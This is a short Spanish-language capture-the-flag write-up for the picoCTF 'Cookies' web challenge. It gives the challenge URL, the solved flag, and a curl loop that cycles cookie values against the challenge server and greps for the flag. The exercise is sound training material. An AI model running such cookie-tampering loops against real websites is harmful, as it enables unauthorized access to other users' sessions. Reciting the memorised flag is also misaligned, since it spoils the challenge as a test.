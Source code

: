 # Cookies
## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
## Pistas
P1:
P2:
P3:
## Datos de acceso al nivel
```bash
Usuario: Dena
Contraseña: Notedigo
```
## Solución
```bash
Pass siguiente lvl: picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
----------------------------------------------------------------------------------------
revisamos las cookies con cookie editor

ahora con en el shell
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>

```
## Notas Adicionales

| Comando  | Descripción | 
|------------|--------------|

## Referencias 
https://learn.onemonth.com/web-hacking-tools-proxies/